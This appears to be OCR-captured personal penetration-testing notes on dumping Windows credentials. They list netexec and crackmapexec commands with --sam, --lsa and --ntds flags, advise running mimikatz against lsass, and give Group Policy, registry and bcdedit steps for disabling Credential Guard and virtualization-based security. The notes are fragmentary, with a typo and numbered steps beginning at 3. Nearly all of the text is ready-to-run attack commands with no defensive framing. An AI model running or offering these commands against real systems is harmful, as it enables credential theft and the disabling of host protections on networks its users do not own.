 ```
Before trying all this attempt to dump lsass with netexec

Dumping Creds
	add these on to end of nxc
	--sam
	--lsa
	--ntds
		DCs
nxc smb <ip> -u <user> -p <pass> --<sam | lsa | ntds>

```

First of all make sure the mimikatz version you downloaded matches tge architecture of the machine.secondly turn off credential guard. If everything fails use crackmapexec

3. Set “Turn On Virtualization Based Security” to Disabled

4. Also, go to: Computer Configuration > Administrative Templates > System > Device Guard > Credential Guard Configuration

5. Set “Turn On Credential Guard” to Disabled

Registry:

Delete the registry keys:

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\DeviceGuard] "EnableVirtualizationBasedSecurity"=dword:00000000

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa] "LsaCfgFlags"=dword:00000000

Disable Hyper-V (VBS uses it):

bcdedit /set hypervisorlaunchtype off

crackmapexec smb 192.168.10.11 -u user -p pass --lsa crackmapexec smb 192.168.10.11 -u user -p pass --sam crackmapexec smb 192.168.10.11 -u user -p pass --ntds (on dc)